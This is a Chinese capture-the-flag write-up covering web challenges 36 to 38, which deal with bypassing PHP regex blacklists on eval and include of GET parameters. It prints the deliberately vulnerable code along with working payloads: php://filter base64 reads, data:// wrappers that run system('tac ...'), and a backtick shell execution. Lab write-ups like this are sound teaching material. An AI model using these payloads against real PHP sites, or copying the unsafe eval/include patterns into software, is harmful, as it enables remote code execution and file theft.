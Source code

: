 ## web36（include逃逸）
```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
过滤了数字，换个传参
payload：/?c=include$_GET[a]?%3E&a=php://filter/convert.base64-encode/resource=flag.php
## web37（data，input伪协议）
```php
<?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```
使用php的data伪协议去读
payload：/?c=data:text/plain,<?php system('tac fla?.php')?>
或/?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZy5waHAnKTs/Pg==
或（注意post传参为x-www-form-urlencoded raw，意味传递任意格式文本，如果这里不是raw的话post会将其转换为键值对导致代码无法执行）
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637843452688-976476c6-c4d7-4b91-b205-ae96395ce232.png#)

## web38（data伪协议）
```php
<?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```
过滤了php，那么带php的伪协议都不能用了，这里使用data
payload：/?c=data://text/plain,<?=`tac *`;
## web39（data伪协议）